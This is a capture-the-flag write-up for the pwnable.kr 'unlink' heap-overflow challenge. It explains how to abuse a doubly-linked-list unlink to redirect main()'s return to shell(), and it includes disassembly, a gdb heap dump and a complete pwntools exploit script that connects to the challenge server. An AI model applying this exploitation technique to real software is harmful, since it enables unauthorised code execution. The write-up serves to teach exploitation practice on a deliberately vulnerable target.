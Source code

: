 ```yaml
---
layout: post
title: "Pwnable.kr writeup — unlink"
date: 2017-10-23 04:16:53 +0000
categories: blog
---
```


### Pwnable.kr writeup — unlink

This is another straight-forward challenge to practice heap overflow.

Read the source code, unlike the Unlink Me, this challenge actually provides a doubly-linked list in user memory and lets us to overflow it so that we don’t need to worry about glibc version. The idea is same, we still have to leverage the unlink() function to write arbitrary 4 bytes, that is, overwrite the return address of main() with the address of shell().

```
unlink()
```

```
main()
```

```
shell()
```

There are two possibilities for unlink():

1.

```
FD = return address of main()BK = address of shell()
```

Then BK->fd = FD will overwrite some code in shell()… Ouch! It should be read only…

```
BK->fd = FD
```

2.

```
FD = address of shell()BK = return address of main()
```

FD->bk = BK will do the same…

```
FD->bk = BK
```

It looks like we come to a dead end.

How about putting some writable memory there? Such as some heap address? Good idea, but unfortunately NX is turned on too! This doesn’t work either…

Fortunately this challenge is modified just for this purpose, there is some assembly code which is not as usual, it is those after unlink():

```
80485f2: e8 0d ff ff ff        call   8048504 <unlink> 80485f7: 83 c4 10              add    $0x10,%esp 80485fa: b8 00 00 00 00        mov    $0x0,%eax 80485ff: 8b 4d fc              mov    -0x4(%ebp),%ecx 8048602: c9                    leave   8048603: 8d 61 fc              lea    -0x4(%ecx),%esp 8048606: c3                    ret
```

The two instructions I highlight are not usual, they appear here just to help us to exploit… How could it help?

The %ebp-4 before leave is actually where the return address is! So it saves the return address we overwrite to %ecx, then deference it, sub 0x4 from it, then saves it back to the same place! What does this mean for us? This means we could put some writable address (heap address) which is the address of shell() address we save, we just leverage this additional dereference to bypass the additional write in unlink()!

```
%ebp-4
```

```
leave
```

```
%ecx
```

```
0x4
```

Now let’s review it:

%ebp-4 should contain the return address we overwrite via unlink(), as we plan above, it is a writable heap address where we save the address of shell(), then after the above unusual assembly code, the address of shell() should be overwritten as the return address of main() .

```
%ebp-4
```

```
unlink()
```

```
shell()
```

```
shell()
```

```
main()
```

So, here is our plan for overwriting OBJ B:

```
FD = address of shell() address we save on heapBK = return address of main()buf[0-4] = shell() address
```

So FD->bk is actually buf[4–8] which is now writable and we don’t care about what we write there. BK->fd is the return address.

```
FD->bk
```

```
buf[4–8]
```

```
BK->fd
```

The heap address printed is address of A, let’s examine what’s there in heap:

```
gdb-peda$ x/16wx 0x8e364100x8e36410: 0x08e36428 0x00000000 0x00000000 0x000000000x8e36420: 0x00000000 0x00000019 0x08e36440 0x08e364100x8e36430: 0x00000000 0x00000000 0x00000000 0x000000190x8e36440: 0x00000000 0x08e36428 0x00000000 0x00000000
```

Notice that those 0x08e3* are apparently addresses, so we can learn that A+24 = B, therefore B->buf is A+0x20, with adjust of 4 we need to set B->FD to A+0x24 . We already know the address of shell() is 0x80484eb . Lastly the return address of main should be the address of stack + 0x10 because A is stored at %ebp-0x14 on stack and %ebp is saved on stack too.

```
B->buf
```

```
B->FD
```

```
A+0x24
```

```
0x80484eb
```

```
%ebp-0x14
```

```
%ebp
```

The complete exploit code is:

```
from pwn import *s = ssh(host='pwnable.kr', port=2222,        user='unlink',        password='guest')context.log_level = 'debug'a = s.process(["./unlink"])r = a.recvuntil('get shell!\n')
```

```
stack_str = 'stack address leak: 'i = r.find(stack_str)stack_addr = int(r[i + len(stack_str) : i + len(stack_str) + 10], 16)
```

```
heap_str = 'heap address leak: 'i = r.find(heap_str)heap_addr = int(r[i + len(heap_str) : i + len(heap_str) + 10], 16)
```

```
shell_addr = 0x80484eb
```

```
a.send("AAAAAAAAPPPPCCCC" + p32(heap_addr + 0x24) + p32(stack_addr + 0x10) + p32(shell_addr))a.interactive()
```